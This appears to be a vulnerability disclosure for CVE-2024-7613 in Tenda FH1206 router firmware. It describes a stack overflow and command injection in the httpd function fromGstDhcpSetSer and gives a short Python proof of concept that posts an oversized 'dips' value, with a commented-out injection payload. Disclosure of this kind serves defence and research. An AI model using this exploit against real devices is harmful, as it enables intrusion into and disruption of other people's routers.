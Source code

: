 ## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `fromGstDhcpSetSer` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The function gets the `dips` parameter from the user request, and copies content before the last `.` to the stack variable `v21` using `strncpy`.  Because the size depends on where we place the last `.`, this can be used as a stack overflow.

![image1](image/1.png)

After this, the string is spliced with a character `1`, which will eventually be executed as part of the `ifconfig` command. Because there is no filtering of strings, this leads to a command injection vulnerability.

![2](image/2.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/GstDhcpSetSer"

data = {
    "dips": "a"*0x1000 + '...'
    # "dips": ";echo pwned;ls;" + '...'
}

ret = requests.post(url,data=data)
```

Here is a screenshot of a stack overflow being successfully exploited:

![demo](image/demo.png)

## CVE

CVE-2024-7613
